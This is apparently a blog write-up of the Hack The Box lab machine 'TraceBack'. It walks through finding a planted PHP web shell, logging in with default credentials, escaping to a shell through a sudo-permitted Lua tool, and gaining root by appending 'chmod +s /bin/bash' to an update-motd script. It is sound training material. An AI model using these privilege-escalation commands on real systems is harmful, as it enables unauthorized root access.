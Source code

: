 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: TraceBack
- Description: Traceback is an easy difficulty machine that features an Apache web server. A PHP web shell uploaded by a hacker is accessible and can be used to gain command execution in the context of the `webadmin` user. This user has the privilege to run a tool called `luvit`, which executes Lua code as the `sysadmin` user. Finally, the Sysadmin user has write permissions to the `update-motd` file. This file is run as root every time someone connects to the machine through SSH. This is used to escalate privileges to root.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](assets/images/2024-01-28-HTB-TraceBack-Writeup-image-1.png)

As soon as I go to the webpage I see that it has already been owned, I see a signature signed by Xh4H, I do a quick google search and find that he has a github, and that he has a repo called webshells:

![](assets/images/2024-01-28-HTB-TraceBack-Writeup-image-2.png)

I'll create a wordlist with all his webshells in there and dirsearch:

```bash
HTB  dirsearch -w /home/kali/HTB/file.txt -t 64 -e php,txt,html -f -u  http://10.10.10.181/

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, txt, html | HTTP method: GET | Threads: 64 | Wordlist size: 13

Output File: /home/kali/.dirsearch/reports/10.10.10.181/-_24-01-28_21-26-03.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-28_21-26-03.log

Target: http://10.10.10.181/

[21:26:04] Starting: 
[21:26:07] 200 -    1KB - /smevk.php                                        

Task Completed
```

We got a hit on smevk.php, when I route to it I see alogin page:

![](assets/images/2024-01-28-HTB-TraceBack-Writeup-image-3.png)

I'll check the source on the github to see if they are still default creds:

![](assets/images/2024-01-28-HTB-TraceBack-Writeup-image-4.png)
I login with `admin:admin`!

I run a reverse shell from the execute portion:

![](assets/images/2024-01-28-HTB-TraceBack-Writeup-image-5.png)

```bash
webadmin@traceback:/var/www/html$ whoami
webadmin
```
## Privilege Escalation

I find a note in my home dir:

```bash
webadmin@traceback:/home/webadmin$ cat note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Since I know this machine has been pwned before me, and I am just rehacking to get control of the box again, I can see that the bash_history is present:

```bash
cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
rm privesc.lua
logout
```

I can see that my user can run sudo as sysadmin on this luvit tool:

```bash
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute("/bin/sh")
$ whoami
sysadmin
```

I check if we can write to anything due to our group:

```bash
sysadmin@traceback:/etc/update-motd.d$ find / -group sysadmin 2>/dev/null  | grep -v proc | grep -v sys 
| grep -v run
/etc/update-motd.d
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/webadmin
/home/webadmin/note.txt
```

I see we can edit files in the update-motd directory, so I'll add a command in there and ssh in!

```bash
sysadmin@traceback:/etc/update-motd.d$ echo "chmod +s /bin/bash" >> 00-header
```

I log out and back in and get a shell as root:

```bash
$ bash -p
bash-4.4# whoami
root
```

best,
gerbsec